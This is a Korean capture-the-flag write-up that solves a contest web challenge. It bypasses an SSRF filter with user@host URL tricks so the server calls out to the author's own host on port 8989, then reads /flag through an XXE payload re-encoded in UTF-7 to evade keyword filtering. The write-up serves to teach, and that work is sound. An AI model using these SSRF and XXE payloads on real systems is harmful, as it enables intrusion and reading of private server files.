










# familiar

**Description:**
> web  
> [Link](http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr)

## Keyword
* Bypass SSRF
* Bypass XXE by using UTF-7

## Solution
  
메인 페이지에 접근해보면 Flag 메뉴를 볼 수 있습니다.

  
Flag 메뉴에 들어가보면 flag가 어디에 있는지 알려주고 있습니다.  
`Flag is at /flag`

그리고 URL을 보면 아래와 같이 어떠한 값이 인코딩되어 page 파라미터에 입력된 것을 볼 수 있습니다.  
`http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=`

해당 값을 base64로 디코딩해보면 문제 URL 주소와 메뉴명을 볼 수 있습니다.  
```python
>>> import base64
>>> base64.b64decode('Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=')
'cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag'
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag  
위 주소로 직접 접근을 해보면 `Seriously?`라는 메시지를 볼 수 있습니다.  


이번에는 `flag` 대신에 `index`를 넣어서 base64 인코딩하고 page 파라미터에 입력해서 요청하면 아래와 같은 에러 메시지를 볼 수 있습니다.  
```python
>>> import base64
>>> base64.b64encode('cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/index')
'Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2luZGV4'
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2luZGV4  
  
`http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/index.xml returns 404 Error...`  
에러 메시지를 통해서 page에 입력된 값에 `.xml 확장자`가 붙는 것을 확인할 수 있습니다.

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag.xml  
이번에는 `.xml 확장자`를 포함해서 flag.xml에 직접 접근해보면 flag.xml 파일의 내용을 확인할 수 있습니다.  
  
```xml
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<content>
<title>Flag</title>
<body><p>Flag is at <strong>/flag</strong></p></body>
</content>
```

flag.xml 파일을 통해 확인한 구조를 바탕으로 자신의 서버에 flag.xml 파일을 생성하고 문제 서버에서 생성한 파일을 요청하도록 page 파라미터에 인코딩해서 입력하였습니다.  
flag.xml:
```xml
<content>
<title>web</title>
<body>tendollar</body>
</content>
```

```python
>>> import base64
>>> base64.b64encode('do9.kr/flag')
'ZG85LmtyL2ZsYWc='
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85LmtyL2ZsYWc=  
  
하지만, 문제 서버 도메인을 벗어날 경우 `SSRF Detected!` 메시지가 발생하면서 실패한 것을 볼 수 있습니다.

```python
>>> import base64
>>> base64.b64encode('do9.kr:8989@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85LmtyOjg5ODlAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85LmtyOjg5ODlAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=  
`Flag is at /flag`  
위와 같은 형태로 시도해보면 `SSRF Detected!` 메시지는 발생하지 않지만 자신의 서버로 접근 유도에는 실패하였습니다.

*black hat 2017 - A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages! (Orange Tsai)*  
발표자료를 참고하여 SSRF를 아래와 같은 형태로 우회할 수 있습니다.  
`temp@server@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag`

```python
>>> import base64
>>> base64.b64encode('do9dark@do9.kr@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85ZGFya0Bkbzkua3JAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85ZGFya0Bkbzkua3JAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=  
`http://do9dark@do9.kr@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag.xml CURL Failed...`  
위와 같은 방법으로 시도할 경우 `SSRF Detected!` 메시지 대신 `CURL Failed...` 메시지가 발생하는 것을 볼 수 있습니다.

자신의 서버에서 8989번 포트를 열어두고 아래와 같은 방법으로 시도하였습니다.
  
```bash
# nc -l 8989
```

```python
>>> import base64
>>> base64.b64encode('do9dark@do9.kr:8989@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85ZGFya0Bkbzkua3I6ODk4OUBjZDQzMDNlZmM4MWYyMWMxZDFlMTVmNGEzOGFjNDYzNi53aGl0ZWhhdGNvbnRlc3Qua3IvZmxhZw=='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85ZGFya0Bkbzkua3I6ODk4OUBjZDQzMDNlZmM4MWYyMWMxZDFlMTVmNGEzOGFjNDYzNi53aGl0ZWhhdGNvbnRlc3Qua3IvZmxhZw==

  
위와 같이 접근할 경우 8989번 포트로 요청이 들어온 것을 확인할 수 있습니다.

  
사전에 자신의 서버에 만들어 놓은 flag.xml 파일 내용을 직접 입력하여 문제 서버로 전달을 시도하였습니다.

  
정상적으로 문제 서버가 전달받은 내용을 출력한 것을 볼 수 있습니다.

  
다시 8989번 포트를 열어두고 `/flag` 파일을 읽어서 보여주도록 XXE 공격을 시도하였습니다.  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY flag SYSTEM "file:///flag" >]>
<content>
<title>web</title>
<body>&flag;</body>
</content>
```

  
하지만, `XXE Detected!` 메시지가 발생하면서 실패한 것을 볼 수 있습니다.

  
몇 가지 테스트를 해보면 `DOCTYPE`, `ENTITY`, `SYSTEM`과 같은 문자열이 있을 경우 XXE 공격을 막아놓은 것을 알 수 있습니다.  
이 부분은 UTF-7을 통해서 우회할 수 있습니다.  
```xml
<?xml version="1.0" encoding="UTF-7"?>
<+ACE-+AEQ-+AE8-+AEM-+AFQ-+AFk-+AFA-+AEU- foo +AFs-+ADw-+ACE-+AEU-+AE4-+AFQ-+AEk-+AFQ-+AFk- flag +AFM-+AFk-+AFM-+AFQ-+AEU-+AE0- "file:///flag" +AD4-+AF0->
<content>
<title>web</title>
<body>&flag;</body>
</content>
```

  
UTF-7로 변환한 XXE 공격이 성공하여 `/flag` 파일의 내용을 정상적으로 확인할 수 있습니다.

  
다음과 같은 명령어를 통해 UTF-7로 변환한 문자열을 UTF-8로 변환하여 확인할 수 있습니다.  
```bash
# cat flag.xml | iconv -f UTF-7 -t UTF-8
```

해당 문제 서버가 입력값을 처리하는 과정:  
```
$url = $_GET['page'] . '.xml';
ssrf_check($url);
curl($url);
xxe_check($url);
xml_parse($url);
```

## Flag
Flag{dpvmdprtmdofqjaeocpdjswpskdhsi}
